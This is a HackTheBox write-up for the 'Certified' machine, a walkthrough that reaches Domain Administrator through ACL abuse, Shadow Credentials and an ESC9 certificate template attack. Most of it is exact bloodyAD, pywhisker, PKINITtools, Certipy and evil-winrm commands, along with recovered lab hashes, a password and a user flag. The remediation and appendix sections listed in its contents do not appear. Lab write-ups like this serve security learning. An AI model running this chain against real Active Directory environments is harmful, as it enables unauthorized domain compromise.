# Certified — HackTheBox Report

| Difficulty | OS      | Category                        |
| ---------- | ------- | -------------------------------- |
| Medium     | Windows | Active Directory / AD CS (ADCS)  |

> Writeup of a retired Certified machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Certified / IP: 10.129.231.186` **Platform:** `HackTheBox` **Date Completed:** `2026-09-22` **Assessment Type:** `Active Directory / AD CS` **Approach:** `Grey box` — assessed with `initial low-privilege credentials provided` (`judith.mader:judith09`).

Certified is an Active Directory machine centered on Active Directory Certificate Services (AD CS) abuse. Starting from a single low-privileged credential, BloodHound was used to identify a chain of abusable object ACLs: `WriteOwner` over the `management` group, `GenericWrite` over the `management_svc` account, and `CanPSRemote` rights on the domain controller. By taking ownership of the `management` group and granting full control over it, the initial user was added as a member, which in turn conferred `GenericWrite` over `management_svc`. That right was abused via Shadow Credentials (`pywhisker`) to obtain a certificate for `management_svc`, which was exchanged for a Kerberos TGT and NTLM hash, providing WinRM access and the user flag. From `management_svc`, a further `GenericAll` right over a `ca_operator` account allowed the same Shadow Credentials technique to be repeated, yielding `ca_operator`'s NTLM hash. Enumeration of the AD CS environment with Certipy revealed the `CertifiedAuthentication` certificate template was vulnerable to the ESC9 attack (no security extension enforced), allowing the `ca_operator` account's User Principal Name (UPN) to be temporarily changed to `Administrator`, a certificate requested under that identity, and the UPN reverted — resulting in a certificate that authenticated as the Domain Administrator and full domain compromise, including the root flag.

---

## Scope

| Host / URL / IP Address | Description                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| `10.129.231.186`          | Target machine — Windows Server, Domain Controller (`certified.htb`), running AD CS |

> Testing was restricted to the host(s) listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — port/service scanning to fingerprint the Active Directory and AD CS environment.
2. **Scanning & Enumeration** — mapping Active Directory object permissions using BloodHound.
3. **Vulnerability Analysis** — identifying abusable ACL chains (`WriteOwner`, `GenericWrite`, `GenericAll`) and AD CS certificate template misconfigurations via Certipy.
4. **Exploitation** — abusing ACLs to pivot between accounts via Shadow Credentials, and abusing an ESC9-vulnerable certificate template to impersonate the Administrator.
5. **Privilege Escalation** — using a forged certificate to authenticate directly as the Domain Administrator.
6. **Post-Exploitation** — capturing user and root flags via WinRM.

---

## Tools Used

| Tool                     | Purpose                                                                 |
| -------------------------- | ---------------------------------------------------------------------------- |
| `nmap`                     | Port and service scanning                                                    |
| `bloodhound-python` / `BloodHound` | Active Directory relationship and ACL enumeration                    |
| `neo4j`                    | Graph database backing BloodHound                                            |
| `bloodyAD`                 | Abusing `WriteOwner` to take ownership of the `management` group             |
| `dacledit.py` (Impacket)   | Modifying a DACL to grant full control after taking ownership                |
| `net rpc` (Samba)          | Adding a user to the `management` group                                      |
| `pywhisker`                | Abusing `GenericWrite`/`GenericAll` via Shadow Credentials (adding key credentials) |
| `gettgtpkinit.py` (PKINITtools) | Requesting a Kerberos TGT using a certificate                          |
| `getnthash.py` (PKINITtools)   | Recovering an NTLM hash from a Kerberos TGT via U2U                      |
| `evil-winrm`               | Remote shell access via WinRM                                                 |
| `netexec` (`nxc`)          | Enumerating AD CS presence via the `adcs` module                             |
| `certipy` / `certipy-ad`   | Enumerating AD CS certificate templates for ESC vulnerabilities and performing the ESC9 attack |

---

## Assessment Summary (Findings Overview)

The overall attack path chained three separate Active Directory ACL/object-control weaknesses together with an AD CS certificate template misconfiguration (ESC9), starting from a single low-privileged account and ending in full domain compromise.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 2     |
| High          | 2     |
| Medium        | 0     |
| Low           | 0     |
| Informational | 0     |

| # | Severity | Finding Name                                                                       |
| --- | -------- | --------------------------------------------------------------------------------------- |
| 1 | Critical | AD CS Certificate Template Vulnerable to ESC9 (UPN Impersonation)                        |
| 2 | Critical | `WriteOwner` Rights Enabling Full Group Takeover                                          |
| 3 | High     | `GenericWrite` Rights Enabling Shadow Credentials Attack                                  |
| 4 | High     | `GenericAll` Rights Enabling Repeated Shadow Credentials Compromise                       |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

### 1.1. Reconnaissance — Port Scanning

```bash
sudo nmap 10.129.231.186 -sC -sV -Pn --disable-arp-ping
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0.)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  ssl/ldap
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

**Findings:** The scan confirmed a Windows Active Directory Domain Controller (`DC01`) for the domain `certified.htb`, with SMB, LDAP, Kerberos, and WinRM (5985) all exposed. Initial credentials (`judith.mader:judith09`) were provided for this assessment.

```bash
echo "10.129.231.186 certified.htb dc01.certified.htb" | sudo tee -a /etc/hosts
```

### 1.2. Enumeration — Mapping AD Relationships with BloodHound

```bash
bloodhound-python -d certified.htb -u 'judith.mader' -p 'judith09' -dc 'dc01.certified.htb' -c all -ns 10.129.231.186
```

```bash
sudo neo4j console
bloodhound
```



With `judith.mader` marked as owned and set as the starting node, the **Node Info → Reachable High Value Targets** view revealed a path consisting of a `WriteOwner` edge to the `management` group, a `GenericWrite` edge from that group to the `management_svc` account, and a `CanPSRemote` edge from `management_svc` to `dc01.certified.htb`.



**Findings:** `judith.mader` held `WriteOwner` over the `management` group, and members of `management` held `GenericWrite` over `management_svc`, which itself had WinRM (`CanPSRemote`) access to the domain controller — a clear privilege escalation path from a single low-privileged credential.

### 1.3. Exploitation — Taking Ownership of the Management Group (Finding #2)

```bash
bloodyad --host "10.129.231.186" -d "certified.htb" -u "judith.mader" -p "judith09" set owner management judith.mader
```



**Findings:** `judith.mader`'s `WriteOwner` right over the `management` group was abused to change the group's owner to `judith.mader` herself, granting full downstream control over the group's DACL.

### 1.4. Exploitation — Granting Full Control and Joining the Management Group

```bash
python3 /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' "certified.htb"/"judith.mader":'judith09'
```



**Findings:** As the new owner, `judith.mader` granted herself `FullControl` over the `management` group's DACL via `dacledit.py`, with the prior DACL automatically backed up before modification.

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%'judith09' -S "dc01.certified.htb"
```

**Findings:** With full control established, `judith.mader` was added as a member of the `management` group, inheriting its `GenericWrite` right over `management_svc`.

### 1.5. Exploitation — Shadow Credentials Attack Against management_svc (Finding #3)

```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --use-ldaps
```



**Findings:** `pywhisker` abused the inherited `GenericWrite` right to add a "Shadow Credential" (a certificate-based key credential) to `management_svc`'s `msDS-KeyCredentialLink` attribute, producing a PFX certificate/key pair that could authenticate as `management_svc` without knowing its password.

```bash
python3 gettgtpkinit.py -cert-pfx ~/pywhisker/pywhisker/YrYIu2Cf.pfx certified.htb/management_svc -pfx-pass 'kNthXx9kqDqmupUecqQm' management_svc.ccache
```



**Findings:** The certificate was used with PKINIT to request a valid Kerberos TGT for `management_svc`, saved to a credential cache file.

```bash
export KRB5CCNAME=management_svc.ccache
python3 getnthash.py -key edf1ee051a0edd6a330354600414eae194e811008581b6c819d6646a4b1d632a certified.htb/management_svc
```



**Recovered NTLM hash:** `a091c1832bcdd4677c28b5a6a1295584`

**Findings:** Using the TGT via a User-to-User (U2U) Kerberos exchange, the `management_svc` account's NTLM hash was recovered directly, without needing to crack anything offline.

### 1.6. Foothold — WinRM Access as management_svc

```bash
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
cd C:\Users\management_svc\Desktop
ls
cat user.txt
```



**User flag:** `c777073085e674878190221ed63df8f7`

### 1.7. Lateral Movement — GenericAll Over ca_operator (Finding #4)

Using BloodHound's Pathfinder from `management_svc`, a `GenericAll` edge was identified to a `ca_operator` account — a name suggestive of Certificate Authority operator privileges.



**Findings:** `management_svc` held `GenericAll` — full object control — over `ca_operator`, again enabling the Shadow Credentials technique, this time authenticated as `management_svc` via its NTLM hash rather than a plaintext password.

```bash
python pywhisker.py -d "certified.htb" -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584' --target "ca_operator" --action "add"
```



```bash
python3 gettgtpkinit.py -cert-pfx ~/lJTgEkSK.pfx certified.htb/ca_operator -pfx-pass 'opeLmH9izVcMlodRxqgE' ca_operator.ccache
```



```bash
export KRB5CCNAME=ca_operator.ccache
python3 getnthash.py -key 3daf82a78183678e915a113c6f7ae242ed446862a8d3097c663e59d787c5783e certified.htb/ca_operator
```



**Recovered NTLM hash:** `b4b86f45c6018f1b664f70805f45d8f2`

**Findings:** The same Shadow Credentials chain (add key credential → PKINIT TGT → U2U NTLM hash recovery) was repeated against `ca_operator`, yielding a second set of valid domain credentials with access relevant to the Certificate Authority.

### 1.8. Vulnerability Analysis — Discovering AD CS and the ESC9 Weakness (Finding #1)

```bash
nxc ldap certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 -M adcs
```



**Findings:** The `adcs` module confirmed a PKI Enrollment Server (`certified-DC01-CA`) was present on the domain controller, consistent with the AD CS ports observed during the initial nmap scan.

```bash
certipy find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
```



**Findings:** Certipy's vulnerability scan flagged the certificate template used by `certified-DC01-CA` as vulnerable to **ESC9** — the CA's issuing policy does not enforce the `szOID_NTDS_CA_SECURITY_EXT` security extension on a template with `CT_FLAG_NO_SECURITY_EXTENSION` set, meaning a certificate's mapped identity is derived purely from the requesting account's UPN at the time of enrollment, with no binding to the account's actual SID. Certipy noted that additional prerequisites (e.g. `GenericWrite` over the target account to modify its UPN) may be required — a prerequisite already satisfied via `management_svc`'s `GenericAll` over `ca_operator`.

### 1.9. Exploitation — ESC9 UPN Impersonation Attack (Finding #1)

```bash
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```



**Findings:** Using `management_svc`'s `GenericAll` (and thus `GenericWrite`) rights over `ca_operator`, the `ca_operator` account's `userPrincipalName` attribute was changed from `ca_operator@certified.htb` to `Administrator`.

```bash
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug
```


**Findings:** A certificate was requested using `ca_operator`'s own credentials against the vulnerable `CertifiedAuthentication` template. Because the template lacks the security extension, the certificate was issued with a Subject Alternative Name UPN of `Administrator` rather than being bound to `ca_operator`'s actual SID — a certificate that, on authentication, is treated as belonging to the `Administrator` account.

```bash
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
```



**Findings:** The `ca_operator` account's UPN was reverted to its original value immediately after the certificate was issued, minimizing footprint and avoiding breaking the account's normal logon behavior.

### 1.10. Post-Exploitation — Authenticating as Administrator and Capturing Root

```bash
certipy-ad auth -pfx 'administrator.pfx' -domain 'certified.htb' -dc-ip 10.129.231.186 -debug
```


**Recovered hash:** `Administrator:aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34`

**Findings:** Certipy used the forged certificate (bearing the `Administrator` UPN in its SAN) to authenticate via PKINIT and retrieve the Domain Administrator's NTLM hash directly from the KDC.

```bash
evil-winrm -i certified.htb -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
cd ..
cd Desktop
ls
cat root.txt
```

